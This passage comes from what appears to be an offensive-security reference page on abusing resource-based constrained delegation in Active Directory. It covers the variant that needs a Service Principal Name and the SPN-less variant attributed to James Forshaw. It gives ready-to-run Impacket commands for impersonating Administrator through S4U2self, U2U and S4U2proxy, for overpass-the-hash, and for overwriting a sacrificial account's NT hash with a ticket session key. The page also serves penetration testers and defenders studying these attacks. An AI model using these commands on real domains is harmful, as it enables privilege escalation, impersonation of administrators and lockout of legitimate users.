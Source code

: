 >[!NOTE]
>The SPN (Service Principal Name) set can have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page_id=183)). There however scenarios where the SPN can be changed ([AnySPN](https://www.thehacker.recipes/ad/movement/kerberos/ptt#modifying-the-spn)) to access more service. This technique is automatically tried by Impacket scripts when doing pass-the-ticket.

```bash
impacket-getST -spn 'cifs/target' -impersonate Administrator -dc-ip 'DomainController' 'domain/controlledaccountwithSPN:SomePassword'
```

**Step 3**: Pass-the-ticket 🛂

Once the ticket is obtained, it can be used with [pass-the-ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt).

### Without SPN

In 2022, [Jame Forshaw](https://twitter.com/tiraniddo) demonstrated that the SPN requirement wasn't completely mandatory and RBCD could be operated without: [Exploiting RBCD using a normal user](https://www.tiraniddo.dev/2022/05/exploiting-rbcd-using-normal-user.html). While this technique is a bit trickier and should absolutely be avoided on regular user accounts (the technique renders them unusable for normal people), it allows to abuse RBCD even if the [`MachineAccountQuota`](https://www.thehacker.recipes/ad/movement/builtins/machineaccountquota) is set to 0. In this case, the first (edit the "rbcd" attribute) and last ("Pass-the-ticket") steps are the same. Only the "Obtain a ticket" step changes.

----

The technique is as follows:

1. Obtain a TGT for the SPN-less user allowed to delegate to a target and retrieve the TGT session key.
2. Change the user's password hash and set it to the TGT session key.
3. [Combine S4U2self and U2U](https://www.thehacker.recipes/ad/movement/kerberos/#s4u2self-+-u2u) so that the SPN-less user can obtain a service ticket to itself, on behalf of another (powerful) user, and then proceed to S4U2proxy to obtain a service ticket to the target the user can delegate to, on behalf of the other, more powerful, user.
4. [Pass the ticket](https://www.thehacker.recipes/ad/movement/kerberos/ptt) and access the target, as the delegated other

>[!NOTE]
>While this technique allows for an abuse of the RBCD primitive, even when the [`MachineAccountQuota`](https://www.thehacker.recipes/ad/movement/builtins/machineaccountquota) is set to 0, or when the absence of LDAPS limits the creation of computer accounts, it requires a sacrificial user account. In the abuse process, the user account's password hash will be reset with another hash that has no known plaintext, effectively preventing regular users from using this account.

```bash
# Obtain a TGT through overpass-the-hash to use RC4
impacket-getTGT -hashes :$(pypykatz crypto nt 'SomePassword') 'domain'/'controlledaccountwithoutSPN'

# Obtain the TGT session key
impacket-describeTicket 'TGT.ccache' | grep 'Ticket Session Key'

# Change the controlledaccountwithoutSPN's NT hash with the TGT session key
impacket-changepasswd -newhashes :TGTSessionKey 'domain'/'controlledaccountwithoutSPN':'SomePassword'@'DomainController'

# Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
KRB5CCNAME='TGT.ccache' impacket-getST -u2u -impersonate "Administrator" -spn "host/target.domain.com" -k -no-pass 'domain'/'controlledaccountwithoutSPN'

```